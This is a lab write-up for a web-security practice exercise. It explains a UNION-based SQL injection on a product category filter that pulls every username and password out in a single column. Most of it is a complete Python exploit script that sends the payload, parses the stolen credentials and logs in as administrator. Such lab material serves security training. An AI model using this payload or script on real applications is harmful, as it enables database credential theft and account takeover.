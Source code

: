 ```yaml
---
title: 'SQLi Lab 10'
description: 'SQL injection for retrieving multiple values in a single column'
---
```



## SQL injection UNION attack, retrieving multiple values in a single column

<div style="text-align: justify;">
  This lab demonstrates how to retrieve multiple values in a single column using SQL injection and a `UNION` attack. The vulnerable product category filter returns query results in the application's response. The database contains a `users` table with `username` and `password` columns. By concatenating the two columns into a single value using `||'~~'||`, all credentials can be retrieved in one column. This allows extraction of the administrator credentials needed to solve the lab.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `category` parameter in `/filter` is vulnerable to SQL injection.
- Verify the number of columns and which columns return text (e.g. `'+UNION+SELECT+NULL,'abc'--`).
- Use a payload like `'+UNION+SELECT+NULL,username||'~~'||password+FROM+users--` to retrieve all usernames and passwords in a single column.
- Parse the response to extract credentials.
- Log in using the administrator account to complete the lab.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy (optional, comment out if not needed)
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """Check if Burp Suite proxy is running."""
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_sqli(url, payload):
    """Exploit SQLi and extract credentials table."""
    full_url = url.rstrip("/") + payload
    res = requests.get(full_url, verify=False, proxies=proxies, timeout=10)
    res.raise_for_status()

    soup = BeautifulSoup(res.text, "html.parser")
    creds = {}

    rows = soup.find_all("tr")
    for row in rows:
        cols = row.find_all(["th", "td"])
        if len(cols) == 1:  # single column with "username~~password"
            combo = cols[0].get_text(strip=True)
            if "~~" in combo:
                username, password = combo.split("~~", 1)
                creds[username] = password

    return creds

def login(url, username, password):
    """Log in using CSRF token and credentials, then check if lab solved."""
    login_url = url.rstrip("/") + "/login"
    session = requests.Session()

    # Step 1: Get CSRF token
    res = session.get(login_url, verify=False, proxies=proxies)
    res.raise_for_status()

    soup = BeautifulSoup(res.text, "html.parser")
    csrf_token = soup.find("input", {"name": "csrf"})["value"]

    # Step 2: Submit login form
    data = {
        "csrf": csrf_token,
        "username": username,
        "password": password
    }

    res = session.post(login_url, data=data, verify=False, proxies=proxies)
    res.raise_for_status()

    if "Log out" in res.text:
        print(f"[+] Logged in as {username}. Checking if lab is solved...")

        # Step 3: One last GET on base URL
        base_res = session.get(url, verify=False, proxies=proxies)
        base_res.raise_for_status()

        if "Congratulations" in base_res.text:
            print("[+] Lab solved! 🎉")
            return True
        else:
            print("[-] Logged in but lab not solved yet.")
            return False
    else:
        print("[-] Login failed.")
        return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()
    check_burp()

    payload = "/filter?category='+UNION+SELECT+NULL,username||'~~'||password+FROM+users--"

    print("[*] Exploiting SQL injection...")
    creds = exploit_sqli(url, payload)

    if not creds:
        print("[-] No credentials found!")
        sys.exit(1)

    print("[*] Extracted credentials:")
    for user, pw in creds.items():
        print(f"   {user} : {pw}")

    if "administrator" in creds:
        print("[*] Trying to log in as administrator...")
        login(url, "administrator", creds["administrator"])
    else:
        print("[-] Administrator account not found.")

if __name__ == "__main__":
    main()
```